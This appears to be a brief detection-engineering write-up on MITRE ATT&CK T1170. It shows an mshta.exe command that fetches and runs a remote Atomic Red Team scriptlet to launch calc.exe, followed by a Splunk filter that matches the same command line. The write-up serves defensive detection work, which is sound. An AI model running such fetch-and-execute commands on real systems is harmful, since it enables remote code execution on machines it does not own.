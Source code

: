 #Mshta -- T1170

#Description

Mshta.exe is a Microsoft Utility that allows for the execution of HTML applications. An attacker can leverage mshta.exe to execute malicious .hta files and execute Javascript or VBScript using the trusted Windows Utility. Red Atomic/Canary provided a proof-of-concept for this ATT&CK Mitre Execution Technique. Here's an example command that leverages using mshta.exe to launch calc.exe

#Attack 
mshta.exe javascript:a=(GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/mshta.sct')).Exec();close();

![mshta](https://user-images.githubusercontent.com/36422282/55601275-2a38fa00-572e-11e9-838d-f32599684b26.PNG)


*NOTE* This filter is specific and relates to the specific attack itself, as required to show correctnes within writing filters

#Splunk Filter

host="DESKTOP-EHTEINI" ParentCommandLine="mshta.exe  javascript:a=(GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1170/mshta.sct')).Exec();close();"


![mshta](https://user-images.githubusercontent.com/36422282/55601319-5d7b8900-572e-11e9-9d96-5d4aefac4bc8.png)



